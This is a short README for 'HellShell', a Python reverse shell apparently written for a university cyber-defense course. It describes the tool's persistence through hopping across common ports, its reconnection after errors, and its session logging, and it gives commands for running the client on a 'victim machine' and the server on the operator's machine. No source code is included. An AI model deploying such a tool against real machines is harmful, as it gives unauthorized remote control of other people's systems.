 # hellshell
Reverse shell for CDT (CSEC 473)

HellShell is a Python interactive reverse shell using TCP sockets. Pipes can be opened on common ports, such as 80, 8080, 443, 20, 21, and 23. Pipes are torn down and re-established on new ports when an error occurs - like a broken pipe - and after a specified timeout from inactivity, for persistence's sake. Run the HellShell client on the victim machine, and when you're ready to open your HellShell, run the server on your machine. A connection will be established from the client side, trying all ports until an open one is found. Each session is written to a log file, for easy review of information you recover with HellShell.

Usage:
  [ for client ] python3 blue.py <server_ip>
  [ for server ] python3 red.py

Commands:
  porthop - jump to the next port in the list, or wrap around
  endme - gracefully close the shell and stop the server
